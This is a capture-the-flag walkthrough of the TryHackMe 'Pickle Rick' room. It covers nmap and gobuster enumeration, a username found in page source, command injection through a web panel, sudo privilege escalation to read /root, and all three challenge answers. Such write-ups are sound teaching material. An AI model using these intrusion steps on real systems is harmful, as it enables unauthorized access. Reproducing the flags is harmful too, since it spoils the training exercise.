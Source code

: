 # 🥒 TryHackMe - Pickle Rick

**Platform:** TryHackMe  
**Challenge Type:** Boot2Root  
**Author:** Gage Ayala ([@GageGotya](https://github.com/GageGotya))  
**Date:** April 11, 2025  
**Difficulty:** ⭐ Easy  

---

## 📘 Overview

This Rick and Morty themed room tasks you with helping Rick transform back from a pickle into a human by collecting three secret ingredients.  
You'll perform enumeration, exploit command injection, and escalate privileges to recover all ingredients and save Rick.

> 💡 A fun and clever room that introduces web fuzzing, command injection, and Linux privilege escalation.

---

## 🌐 Information Gathering

**Target IP:** _Provided by the room_

### 🔍 Nmap Scan

```bash
nmap -sC -sV <target-ip>
```

**Discovered Service:**

- HTTP on port 80 — `/assets` endpoint present

---

## 🧑‍💻 Web Exploration

### 🧪 robots.txt

```text
/Wubbalubbadubdub
```

### 🔍 Page Source

Found credential clue in home page source code:

```text
Username: RickRul3s
```

---

## 🪜 Directory Enumeration

### Using Gobuster

```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

- Discovered hidden PHP pages and directories
- Found login page for user access

---

## 🔐 Logging In

Used credentials:

- **Username:** `RickRul3s`  
- **Password:** *(attempts based on clues; successful login leads to web command panel)*

---

## 💉 Command Injection

The panel allows basic command injection. Used it to:

```bash
ls
cat clue.txt
```

Discovered hint and directories leading to first ingredient. Realize cat is not usable.

---

## 📄 First Ingredient

Found file and used:

```bash
less clue.txt
```

🧪 **Ingredient 1:** `mr. meeseek hair`

---

## 🔍 Exploring for Second Ingredient

Navigated to Rick’s home:

```bash
cd /home/rick; ls; pwd
less /home/rick/"second ingredients"; ls
```

🧪 **Ingredient 2:** `1 jerry tear`

---

## 🔐 Privilege Escalation

### Checking sudo access:

```bash
sudo -l
```

Found permission to list and read `/root/`:

```bash
sudo ls /root
```

---

## 👑 Final Ingredient

```bash
sudo less /root/3rd.txt
```

🧪 **Ingredient 3:** `fleeb juice`

✅ All three ingredients collected — Rick is no longer a pickle!

---

## 💡 Reflections

- `robots.txt` is always worth checking — hidden paths are treasure maps  
- Command injection is powerful when web input isn’t sanitized  
- Even silly themes teach serious techniques — enumeration, injection, escalation

---

## 🧠 Pro Tip

> *"Always test web forms for input abuse, and never skip over page source — devs hide all sorts of goodies."*

---

## 📁 Summary of Key Files

| File                   | Description                              |
|------------------------|------------------------------------------|
| `robots.txt`           | Hidden directory revealed                |
| `source code`          | Hidden username in comments              |
| `second ingredients`   | File with second ingredient              |
| `/root/3rd.txt`        | Root-only file with final ingredient     |
